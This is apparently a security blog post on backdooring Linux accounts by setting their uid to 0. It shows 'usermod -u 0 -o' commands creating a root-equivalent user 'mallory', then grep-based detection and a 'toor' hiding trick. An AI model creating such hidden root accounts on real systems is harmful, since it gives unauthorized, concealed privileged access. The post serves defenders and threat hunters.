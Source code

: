 ```yaml
---
title: "Backdoor users on Linux with uid=0"
date: 2021-08-30T09:22:40-07:00
draft: true
tags: [ 
    "red", "ttp"
    ]
---
```


On Unix/Linux users with a `uid=0` are root. This means any security checks are bypassed for them.

An adversary might go ahead and create a new account, or set an existing account's user identifier (`uid`) or group identifier to zero. 



A simple way to do this is to update `/etc/passwd` of an account, or use `usermod -u 0 -o mallory`.

Let's create a new user named `mallory`:

```
wuzzi@saturn:/$ sudo adduser mallory   
[...]
wuzzi@saturn:/$ cat /etc/passwd | grep mallory
mallory:x:1001:1001::/home/mallory:/bin/sh
```

Observe that the user has the uid `1001`.

Next, set the uid to 0 using `usermod`:

```
wuzzi@saturn:/$ sudo usermod -u 0 -o mallory
wuzzi@saturn:/$ cat /etc/passwd | grep mallory
mallory:x:0:1001::/home/mallory:/bin/sh
```

Finally, use the account and observe what happens:

```
wuzzi@saturn:/$ su mallory 
Password: [....]
root@saturn:/# whoami
root
root@saturn:/# 

:)
```

## Detection and Threat Hunting

Depending on your central log collection tools, all you need to do is look for `:0:` in the `/etc/passwd` file for either user or group ids. On the command line on a host this can be done with something like:

```
$ cat /etc/passwd | grep ":0:"
```

The result of this command will look similar to:

![uid 0 backdoor](/blog/images/2021/user-uid0.png)

Neat.

Its unlikely, but if you encounter a BSD system you might actually see two user's with uid 0. One is name `root` and the other one `toor`. So on non-BSD systems a nifty attacker might attempt to trick Unix administrators and hide an additional backdoor user with the name `toor`.

In case you find backdoor users in your environment - I'd be curious to know. 

## Conclusion

Be aware that `uid=0` are root users. It's hardcoded.

One would expect the system to break, but things *seem* to continue working fine. I always assumed that the configuration is not really supported, but malware and malicious users rarely care about supported configurations.
